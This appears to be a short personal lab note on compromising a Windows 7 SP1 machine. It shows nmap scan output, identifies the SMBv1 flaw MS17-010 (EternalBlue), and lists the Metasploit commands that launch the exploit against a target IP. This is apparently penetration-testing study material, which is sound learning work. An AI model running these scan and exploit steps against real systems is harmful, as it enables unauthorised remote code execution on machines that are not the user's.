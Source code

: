 135/tcp         open  msrpc        Microsoft Windows RPC
139/tcp         open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp         open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds 
49152/tcp     open  msrpc        Microsoft Windows RPC
49153/tcp     open  msrpc        Microsoft Windows RPC
49154/tcp     open  msrpc        Microsoft Windows RPC
49155/tcp     open  msrpc        Microsoft Windows RPC
49157/tcp     open  msrpc        Microsoft Windows RPC

SMB (port 139):
CVE-2017-0143       ms17-010    
A critical remote code execution vulnerability exists in Microsoft SMBv1 servers (ms17-010)


<mark style="background: #FFF3A3A6;">Steps automated exploit:</mark>
- `nmap -T4 -p- -A 10.0.2.4`
- search on google -->  windows 7 ultimate 7601 service pack 1 exploit
- search for -->     - exploit-db
			     - rapid7
			     - github
			     - cvedetails
- we found a -->  "eternalblue" exploit
- `msfconsole`
- `search eternalblue`
  ![[Pasted image 20240213204641.png]]
  - `use 0`
  - `options`
  - `set RHOSTS victim ip`
  - `run`
  - ![[Pasted image 20240213204852.png]]


 
